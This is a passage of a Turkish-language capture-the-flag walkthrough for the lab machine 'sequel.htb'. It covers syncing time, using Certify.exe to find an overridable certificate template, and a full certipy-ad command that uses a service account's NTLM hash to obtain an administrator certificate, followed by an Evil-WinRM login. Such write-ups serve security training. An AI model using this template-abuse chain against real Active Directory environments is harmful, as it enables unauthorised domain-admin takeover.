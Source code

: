 Aşağıdaki hatayla karşılaşırsanız 👇 zamanı manuel olarak güncellemeniz gerekir

![Pasted image 20250113195554.png](/img/user/Pasted%20image%2020250113195554.png)

```
ntpdate sequel.htb
```

Çalışan bir template bulmak için, onun ayarlarını geçersiz kılmamız gerekir.

Hedef makineye yüklemek için Certify.exe kullanıyorum.

![Pasted image 20250113202209.png](/img/user/Pasted%20image%2020250113202209.png)

![Pasted image 20250113202643.png](/img/user/Pasted%20image%2020250113202643.png)

ca_svc'nin bu sertifika için geçersiz kılınabilir izinlere sahip olduğunu görebilirsiniz 👆, işte bunu nasıl geçersiz kılacağınız

![Pasted image 20250113202948.png](/img/user/Pasted%20image%2020250113202948.png)

Kerberos isteği aracılığıyla hedef sistem için bir kimlik doğrulama bileti almak üzere ca_svc kullanıcısının kimlik bilgisi hash'ini kullanın

certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug

![Pasted image 20250113210140.png](/img/user/Pasted%20image%2020250113210140.png)

![Pasted image 20250113210241.png](/img/user/Pasted%20image%2020250113210241.png)

root.txt dosyasını almak için Evil-Winrm girişi


